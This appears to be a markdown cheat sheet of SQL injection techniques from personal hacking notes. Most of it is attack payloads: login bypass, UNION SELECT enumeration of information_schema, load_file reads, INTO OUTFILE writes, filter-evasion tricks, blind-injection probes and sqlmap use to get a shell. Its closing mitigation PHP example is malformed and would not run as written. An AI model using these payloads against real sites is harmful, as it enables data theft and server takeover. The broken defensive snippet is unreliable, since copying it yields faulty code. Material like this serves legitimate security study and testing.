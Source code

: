 * Try to login using SQL statements or symbols (eg. **'** or **%27**)
* Comment the rest of the query using **#** , **%23** , **--** , **/*** , **//** 
* If you think there is some kind of client side filtering, use Burp Proxy
* To read database information:
  * **Order By _n_** - Iterate over **n** to find out the number of columns in table
  * **Union Select 1,2,3,...,n** - Allows you to check which columns are getting displayed by the site
  * **database()** - Name of the database
  * **user()** - User of the server
  * **version()** - OS version of the server
  * **load_file('_path_')** - Load local file
  * **Union Select null, _code_, null Into Outfile '_filePath_'** - Write into file (useful with local file vuln)
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables** - Name of all the tables in the SQL
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables Where table_schema = "owasp10"** - Name of all the tables in owasp10 database
  * **Union Select 1, column_name, null, null, 5 From information_schema.columns Where table_name = "accounts"** - Name of all the columns in accounts table
  * If site doesnt iterate through all results from the query use **limit**:
    * **Union Select table_name,2 From information_schema.tables Limit 1,2** - Iterate through results 1 by 1.
* Use Burp Decoder to encode query to HEX (0x...)
* Use **+** instead of SPACE
* Use different cases to avoid filters
* In a Blind SQL Injection, try to send a true and false value to see how the page behaves
  * True - **and 1=1** or **order by 1**
  * False - ** and 1=0** or **order by 10000000**

### Auto SQL Injection
* **$ sqlmap -u _"URL"_** - Find SQL injections automatically
* We can get shell with **SQLMap**

### Mitigation
* [Fast way](https://github.com/KevinSantos/Hacking/blob/master/Mitigation/sqlInjectionMitigation.php)
* Best way:
   ```php
   <?php
   $hackerInput = "admin' union select #";

   prepare("SELECT * FROM accounts WHERE username = ?");
   execute(array('$hackerInput');
   ?>
   ```

